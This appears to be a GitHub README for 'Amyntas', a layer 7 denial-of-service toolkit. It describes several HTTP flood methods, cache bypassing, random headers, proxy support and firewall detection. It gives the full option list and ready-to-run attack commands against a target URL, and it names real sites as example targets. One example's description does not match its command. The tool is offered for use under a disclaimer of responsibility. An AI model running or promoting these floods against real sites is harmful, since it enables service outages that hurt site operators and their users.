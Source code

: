 ## NOTE!
Results may vary A LOT when attacking! <br>
It might peak at 40k rq/s and drop down to 2k rq/s or peak at 169 requests per second, just so you know! <bn>
The webdrivers used for the <strong>Browser Emulation</strong> attack are Windows 64 bit executables, replace them if you need to!!

--- 

### About
Amyntas is a layer 7 DoS toolkit, with a wide variety of attack methods and the capabilities to bypass caching systems. <br>
Use at your own risk! I, the author, am not responsible for any harm you do! Keep that in mind!

<br>

Aviable methods
- GET (simple GET flood)
- HEAD (simple HEAD flood)
- POST (simple POST flood)
- FAST (a <strong>GET /</strong> flood)
- GHP/GETHEADPOST (a flood which randomly chooses GET, HEAD or POST as request method)
- LEECH (a low & slow HTTP GET flood which can drain A LOT of bandwith)
- MIX (a method which randomly chooses HTTP request methods)

---

### Features
1. IPv6 support
2. Cache bypassing mechanisms
3. Random headers (user agents, referers)
4. Real time "worker" system
5. Supports custom user-agent and referer
6. Proxy support (Rotating proxies coming soon)

---

### Known bugs/problems
1. Attack does not end when you want it to end

---

### To Do list
1. More methods
2. More documentation

---

### Usage
All options:
```
-h, --help                             Show this help message and exit
-t TARGET, --target TARGET             Target URL (Example: https://google.com or http://pornhub.com)
-p PORT, --port PORT                   Target port (Leave empty to let the tool decide)
-d DURATION, --duration DURATION       Attack duration
--proxy PROXY                          Use a proxy when attacking (Example: 127.0.0.1:1337)
--proxy-type PROXY_TYPE                Set the proxy type (HTTP, SOCKS4 or SOCKS5)
--proxy-user PROXY_USER                Proxy username
--proxy-pass PROXY_PASS                Proxy password
--proxy-resolve                        Resolve host using proxy (needed for hidden service targets)
-ua USERAGENT, --user-agent USERAGENT  User agent to use when attacking, else its dynamic
-ref REFERER, --referer REFERER        Referer to use when attacking, else its dynamic
-w WORKERS, --workers WORKERS          Amount of workers/threads to use when attacking
-dbg, --debug                          Print info for devs
-bc, --bypass-cache                    Bypass the cache of the site
-m METHOD, --method METHOD             Method to use when attacking (default: GET)
-dfw, --detect-firewall                Detect if the target site is protected by a firewall
```

Basic usage:
```
python3 amyntas.py -t https://target.com
```

GET flood, attacking with 100 threads for 1337 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -d 40
```

POST flood, attacking with 700 threads for 40 seconds:
```
python3 amyntas.py -t https://target.com -w 700 -m POST -d 40
```

---

### Requirements

```
requests
argparse
colorama
threading
netaddr
```